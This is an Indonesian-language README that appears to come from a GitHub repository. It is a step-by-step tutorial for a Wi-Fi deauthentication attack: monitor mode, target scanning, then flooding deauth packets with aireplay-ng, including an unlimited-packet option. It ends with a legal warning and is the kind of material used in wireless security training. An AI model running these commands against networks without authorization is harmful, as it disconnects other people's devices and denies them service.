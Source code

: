 ![English](README.md) / Bahasa
# Deauthentication Attack dengan `aircrack-ng` di Linux

Berikut panduan dasar untuk melakukan serangan deauth menggunakan `aircrack-ng` pada sistem berbasis Ubuntu/Debian (mungkin identik pada sistem lain):

---

## Prasyarat

- Kartu Jaringan yang support mode monitor dan packet injection (contoh: Atheros AR9565)
- `aircrack-ng` terpasang, jika belum:
  
  ```bash
  sudo apt install aircrack-ng
  ```

## Langkah-langkah

1. **Buka Terminal**: Tekan `Ctrl + Alt + T` untuk membuka terminal.

2. **Periksa Antarmuka Jaringan**: Cek nama antarmuka jaringanmu (contoh: wlan0, wlp3s0), gunakan perintah:
   
    ```bash
    iwconfig
    ```

3. **Masukkan Antarmuka jaringan ke mode monitor**: Pakai `airmon-ng`. Ganti `wlan0` dengan nama antarmuka jaringanmu:
   
    ```bash
    sudo airmon-ng start wlan0
    ```
    Mungkin airmon-ng akan mengganti nama antarmukamu (contoh: `wlan0mon`, `wlp3s0mon`).

4. **Cek Ulang Nama Antarmuka Jaringan**: Gunakan kembali `iwconfig`:

   ```bash
   iwconfig
   ```
   Cek apakah nama antarmuka berubah (contoh: `wlan0mon` `wlp3s0mon`).

5. **Pidai Jaringan}**: Gunakan `airodump-ng` untuk memindai jaringan sekitar dan catat channel dan BSSID (alamat MAC) target:

   ```bash
   sudo airodump-ng wlan0mon
   ```
   Ini akan memindai jaringan di semua channel. Tekan `Ctrl+C` untuk berhenti.

6. **Pindai Jaringan Target**: Setelah channel target diketahui, pakai `--channel` dan pindai ulang.
   
   ```bash
   sudo airodump-ng wlan0mon --channel 1
   ```
   Ganti `1` dengan channel targetmu.

7. **Jalankan Serangan Deauthentication**: Buka terminal baru dan lakukan serangan dengan:

   ```bash
   sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
   ```
   Ganti `<BSSID>` dengan BSSID target.

   `-0` diperlukan untuk deauthentication.\
   `5` adalah jumlah berapa kali paket deauth dikirimkan. Atur sesuai kebutuhan. `0` berarti tanpa batas.

8. **Pantau AKtiviats**: Kembali ke layar `airodump-ng`. perangkat yang terputus dan mencoba menyambung ulang harusnya terlihat.

9. **Matikan Mode Monitor**: Setelah selesai, matikan mode monitor dengan:

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
   Ganti `wlan0mon` dengan nama antarmuka jaringanmu jika berbeda.

## Catatan!!
- **Peringatan**: Serangan deauthentication dapat menjadi ilegal jika dilakukan tanpa otorisas yang tepat. Pastikan Anda memiliki izin sebelum melakukan pengujian tersebut.
- Gunakan secara bijak dan di lingkungan terkontrol.
- Perhatikan hukum dan peraturan yang terkait dengan keamanan jaringan nirkabel di wilayah Anda
